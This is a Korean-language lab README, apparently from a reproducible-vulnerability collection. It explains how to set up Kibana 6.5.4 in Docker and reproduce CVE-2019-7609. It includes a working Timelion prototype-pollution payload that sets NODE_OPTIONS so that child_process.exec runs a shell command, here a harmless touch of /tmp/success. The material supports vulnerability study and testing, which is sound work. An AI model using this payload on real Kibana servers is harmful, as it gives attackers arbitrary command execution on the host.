


# Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

[中文版本（Chinese Version）](README.zh-cn.md)

Kibana 는 Elasticsearch를 위한 오픈 소스 데이터 시각화 대시보드이다.

Kibana 5.6.15 버전과 6.6.1 버전 이전에는 Timelion 시각화에 임의 코드 실행 취약점이 존재한다.
공격자가 Timelion 어플리케이션에 접근하여 자바 스크립트 코드 실행을 할 수 있다.
이로 인해 공격자가 호스트 시스템에서 Kibana 의 프로세스 권한을 사용하여 임의의 명령을 실행할 수 있다.

참고자료:

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Setup

환경을 설정하기 전에, 호스트 서버의 `vm.max_map_count` 를 262144 보다 크게 바꿔야 한다.:
```
sysctl -w vm.max_map_count=262144
```

그 후, Kibana 6.5.4 버전과 Elasticsearch 6.8.6 버전을 실행한다.:
```
docker compose up -d
```

## Vulnerability Reproduce

환경이 실행되면, Kibana 는 `http://your-ip:5106` 에서 실행된다.
첫 취약점은 Timeline 시각화에서 발생한다. 아래 페이로드를 입력한다.:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```



그 후, "Canvas" 에 들어가서 `/bin/touch /tmp/success` 명령어를 실행하게 되면 `/tmp/success` 파일이 성공적으로 생성된다.:


